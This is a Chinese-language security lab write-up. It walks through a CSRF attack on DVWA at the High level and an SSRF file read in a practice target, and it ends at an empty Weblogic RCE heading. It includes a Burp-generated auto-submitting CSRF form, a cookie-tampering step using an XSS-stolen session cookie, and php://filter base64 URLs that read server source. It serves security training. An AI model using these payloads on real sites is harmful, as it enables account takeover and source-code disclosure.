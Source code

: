 # 一、CSRF
## 概念
* CSRF：跨站请求伪造，是一种挟制用户在当前已登录的Web应用程序上执行非本意操作的攻击方法，允许攻击者诱导用户执行他们并不打算执行的操作。
* 攻击条件：   
（1）一个功能操作。
（2）基于 Cookie 的会话处理。
（3）没有不可预测的请求参数。
## 1. DVWA-High 等级
### 1.1 登录`DVWA`，调整安全等级为 `HIGH`。
![Alt text](image.png)
### 1.2 选择`CSRF`模块，正常功能调试。
![Alt text](image-1.png)   
输入新密码和确认密码后，点击`chage`即可修改密码。
### 1.3 `F12`查看网络请求，判断是否满足上面三个攻击条件。
![Alt text](image-2.png)
|条件|是否满足|说明|
|---|---|---|
|一个功能操作|是|一个修改密码的功能|
|基于 Cookie 的会话处理|是|请求中携带cookie|
|没有不可预测的请求参数|否|请求参数中有个`user_token`,经测试每次都会不同|   
### 1.4 查看网站源码
![Alt text](image-3.png)   
每次都会检查一下请求携带的 `user_token` 和服务端的 `session_token` 是否匹配，而 `user_token` 每次请求都不一样，所以不满足上述三个条件中的第三个条件（没有不可预测的请求参数），所以这个难度下直接通过这个点是无法完成`CSRF`攻击的，只能通过其他方式来满足上述攻击条件后，才能完成此功能点的攻击。
### 1.5 攻击思路
已知 `DVWA` 的安全级别和 `cookie` 中的 `security` 参数有关，如果能够修改 `security` 参数的值为 `low`，那么服务端处理的时候就不会校验 `user_token`,这样就可以使第三个条件满足。用这种方法的前提就是要获取到用户的`cookie`，获取到之后，仿冒用户提交修改密码的请求，这个可以利用网站的 `XSS` 漏洞来获取用户的cookie。
### 1.6 利用`XSS`获取用户`cookie`
![Alt text](image-5.png)
```text
 PHPSESSID=p3becs777t1lc5nbkd86ieje05; security=low
```
### 1.7 通过自己账号，提交修改密码请求
![Alt text](image-4.png)
### 1.8 使用 `Burp` 抓包，修改请求中的cookie，以及删除没用的 `user_token` 参数
![Alt text](image-6.png)
### 1.9 成功修改通过 `XSS`抓取用户的密码
![Alt text](image-7.png)
## 2. 使用 Burp 生成 CSRF 利用 POC
### 2.1 使用 `Burp` 生成上面请求的 `CSRF` 的 `POC`
![Alt text](image-8.png)
![Alt text](image-9.png)
### 2.2 运行访问生成的`POC`代码
```html
 <html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
    <body>
        <form action="http://huanxue.com:8081/vulnerabilities/csrf/">
        <input type="hidden" name="password&#95;new" value="123" />
        <input type="hidden" name="password&#95;conf" value="123" />
        <input type="hidden" name="Change" value="Change" />
        <input type="submit" value="Submit request" />
        </form>
        <script>
        history.pushState('', '', '/');
        document.forms[0].submit();
        </script>
    </body>
 </html>
```
![Alt text](image-10.png)   
* 注：跳转太快，没来得及截图。
# 三、SSRF（file_get_content），要求获取 ssrf.php 的源码；
## 概念
* PHP 伪协议：在 PHP 中，伪协议（Pseudo Protocols） 也被称为 流包装器，这些伪协议以 php:// 开头，后面跟着一些参数，用于指定 要执行的操作 或 需要访问的资源。伪协议表明这些协议并不是一个真实的外部协议，例如 http 或 ftp。PHP 伪协议的出现是为了提供一个 统一的、简洁的 接口来处理 不同的数据流。这些伪协议可以被看作是一种 桥梁，它们允许开发者 使用常规的文件操作函数来处理各种不同的数据流。
* SSRF：服务端请求伪造，是一种由攻击者构造形成，由服务端发起请求的一个安全漏洞。一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统。  
* file_get_content：是把整个文件读入一个字符串中。   
* php://filter：是一种元封装器， 设计用于数据流打开时的筛选过滤应用。   
|项目|描述|
|---|---|
|resource|在 php://filter 中，resource 参数是必须的。resource 用于指定 需要进行筛选过滤的数据流。|
|read|read 参数指定一个或多个过滤器用于读操作，多个过滤器之间以管道符 `|` 进行分隔。|
|write|write 参数指定一个或多个过滤器用于写操作，多个过滤器之间以管道符 `|` 进行分隔。|   
示例：
```php
 # 省略过滤器列表实现文本的普通读写操作

 # 通过 php://filter 伪协议指定需要写入数据的文件
 file_put_contents('php://filter/resource=file.txt', 'Hello World');
 # 通过 php://filter 伪协议指定需要读取数据的文件
 $content = file_get_contents('php://filter/resource=file.txt');
```
* convert.base64-encode：convert.base64-encode和 convert.base64-decode使用这两个过滤器等同于分别用 base64_encode()和 base64_decode()函数处理所有的流数据。
## 1. 启动靶场，访问 `SSRF(file_get_content)`
![Alt text](image-11.png)  
## 2. 正常功能演示
![Alt text](image-12.png)   
* 问题：点击后页面刷新，无内容回显   
* 解决：地址栏多了个 `vul`，删除后，重新访问即可   
![Alt text](image-13.png)
## 2. 使用 `php://filter` 引入 `ssrf.php`
```url
 http://127.0.0.1/vul/ssrf/ssrf_fgc.php?file=php://filter/resource=ssrf.php
```
![Alt text](image-14.png)   
引入了 `ssrf.php` 的内容，并解析执行了 `ssrf.php`。
## 3. 使用 `base64` 编码，使其不被解析执行，获取 `ssrf.php` 文件内容。
```url
 http://127.0.0.1/vul/ssrf/ssrf_fgc.php?file=php://filter/read=convert.base64-encode/resource=ssrf.php
```
![Alt text](image-15.png)
## 4. 将返回内容解码
![Alt text](image-16.png)   
成功获取 `ssrf.php`源码。
# 四、远程代码执行漏洞：Weblogic RCE。